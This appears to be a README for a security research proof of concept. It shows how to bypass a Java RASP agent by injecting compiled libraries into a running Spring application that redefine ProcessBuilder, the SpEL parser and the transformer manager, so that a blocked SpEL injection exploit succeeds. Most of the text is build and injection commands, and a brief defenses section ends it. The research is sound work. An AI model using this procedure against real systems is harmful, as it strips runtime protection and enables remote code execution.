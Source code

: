 RASP Bypass using Process Injection

Inject it in the target process
- set JAVA_HOME property (e.g. export JAVA_HOME=/Library/Java/JavaVirtualMachines/openjdk-17.jdk/Contents/Home)
- Compile libraries
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineTransformerManager.cpp -o redefineTransformerManager.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineProcessBuilder.cpp -o redefineProcessBuilder.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineSpelExpressionParser.cpp -o redefineSpelExpressionParser.dylib -L"$JAVA_HOME/lib/server" -ljvm
- run spring application in springcloud-spel-injection with rasp agent loaded  (eg. contrast security: -javaagent:../contrast-agent-6.0.0.jar -Dcontrast.config.path=../contrast.yaml)
- run ./springcloud-spel-injection/exploit.sh it should be blocked
- now inject the library (e.g. using ptrace for macos/linux: https://github.com/kubo/injector)
- cd injector/cmd
- ./injector -java -p $pid path/to/redefineTransformerManager.dylib
- ./injector -java -p $pid path/to/redefineSpelExpressionParser.dylib
- ./injector -java -p $pid path/to/redefineProcessBuilder.dylib
- Look at the spring app logs, and confirm that the injection succeeded
- now rerun the exploit, you should have bypassed rasp

**Defenses**

- In order for RASP to protect against Process injection, they should work at lower level...
- RASP solutions should at least inspect critical classes modified at runtime ?
